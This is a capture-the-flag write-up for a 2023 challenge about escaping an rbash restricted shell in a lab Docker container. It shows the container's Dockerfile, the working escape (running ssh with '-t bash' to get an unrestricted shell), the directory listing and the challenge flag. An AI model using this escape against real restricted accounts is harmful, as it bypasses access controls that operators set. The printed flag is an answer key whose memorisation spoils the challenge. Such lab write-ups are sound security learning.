

# [Cyber Apocalypse 2023](index.md) - Misc - Restricted

> You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?

We're given a spawnable Docker container, and a zip file containin it's configuration.

Looking at the files, it's clear that there isn't much to this container. It sets up a restricted user (called `restricted`), restricts that user to only being able to use the `rbash` shell and a very limited subset of commands. It removes the password requirement for the user so we can get in, then it's up to us.

```
FROM debian:latest

RUN apt update -y && apt upgrade -y && apt install openssh-server procps -y

RUN adduser --disabled-password restricted
RUN usermod --shell /bin/rbash restricted
RUN sed -i -re 's/^restricted:[^:]+:/restricted::/' /etc/passwd /etc/shadow

RUN mkdir /home/restricted/.bin
RUN chown -R restricted:restricted /home/restricted

RUN ln -s /usr/bin/top /home/restricted/.bin
RUN ln -s /usr/bin/uptime /home/restricted/.bin
RUN ln -s /usr/bin/ssh /home/restricted/.bin

COPY src/sshd_config /etc/ssh/sshd_config
COPY src/flag.txt /flag.txt
COPY src/bash_profile /home/restricted/.bash_profile

RUN chown root:root /home/restricted/.bash_profile
RUN chmod 755 /home/restricted/.bash_profile
RUN chmod 755 /flag.txt

RUN mv /flag.txt /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

RUN ssh-keygen -A
RUN mkdir -p /run/sshd

EXPOSE 1337

ENTRYPOINT ["/usr/sbin/sshd", "-D", "-o", "ListenAddress=0.0.0.0", "-p", "1337"]
```

The commands we're limited to are `top`, `uptime` and `ssh`.

```
RUN mv /flag.txt /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

The `bash_profile` file that it brings in also restricts the `PATH`, to make it difficult to run other commands.

```
PATH=$HOME/.bin
```

We can see that the flag is going to be in `/`, and will have a randomized name that we won't have any way of knowing beforehand.

We can connect to the container using the command `ssh restricted@139.59.176.230 -p 32149`, and it lets us right in.

Once in... there isn't much we can do, so we need to do. We can hit __tab__ twice to see a list of all the commands that we can run.

```
restricted@ng-restricted-ufopa-654cb48dc7-sfnrq:~$
!          caller     disown     export     if         pwd        suspend    umask
./         case       do         false      in         read       test       unalias
:          cd         done       fc         jobs       readarray  then       unset
[          command    echo       fg         kill       readonly   time       until
[[         compgen    elif       fi         let        return     times      uptime
]]         complete   else       for        local      select     top        wait
alias      compopt    enable     function   logout     set        trap       while
bg         continue   esac       getopts    mapfile    shift      true       {
bind       coproc     eval       hash       popd       shopt      type       }
break      declare    exec       help       printf     source     typeset
builtin    dirs       exit       history    pushd      ssh        ulimit
```

So, I spent some time looking for ways to spawn a shell from any of these programs.

Google led me to a number of articles on the topic of escaping restricted shells:
 * https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290
 * https://null-byte.wonderhowto.com/how-to/escape-restricted-shell-environments-linux-0341685/
 * https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells

The last link was where I found what I needed - a slide deck by Michal Knapkiewicz from a presentation in 2016, on the topic of escaping restricted Unix shells. Slide 9 reminded me that we can run arbitrary commands on the host when we SSH into them.



So, I decided to try some of these.

```
$ ssh restricted@139.59.176.230 -p 32149 -t "/bin/bash"
rbash: line 1: /bin/bash: restricted: cannot specify `/' in command names
Connection to 139.59.176.230 closed.
```

`-t /bin/bash` and `-t /bin/sh` aren't going to work because we're not allowed to use the `/` character.

```
$ ssh restricted@139.59.176.230 -p 32149 -t "bash"
restricted@ng-restricted-ufopa-654cb48dc7-sfnrq:~$
```

Just `-t "bash"` seems to work though, and I get a different prompt when connected. This one is a normal bash shell that has no restrictions.


We're able to `cd` to `/` now, find the flag's randomized file name, and access it.

```bash
restricted@ng-restricted-ufopa-654cb48dc7-sfnrq:~$ cd /
restricted@ng-restricted-ufopa-654cb48dc7-sfnrq:/$ ls
bin   dev  flag_8dpsy  lib    media          mnt  proc  run   srv  tmp  var
boot  etc  home        lib64  memories.dump  opt  root  sbin  sys  usr
```
```bash
restricted@ng-restricted-ufopa-654cb48dc7-sfnrq:/$ cat flag_8dpsy
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```

```
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```

This was a fun puzzle. I'm not familiar enough with `rbash` and restricted shells to know how a person could have prevented this attack - probably by finding another way to accomplish whatever the reason for giving someone a restricted shell was. Maybe it's a hypothetical system to monitor the uptime and load of the server, and maybe something like SNMP or a more purpose-built system would be better suited for that, with fewer security issues.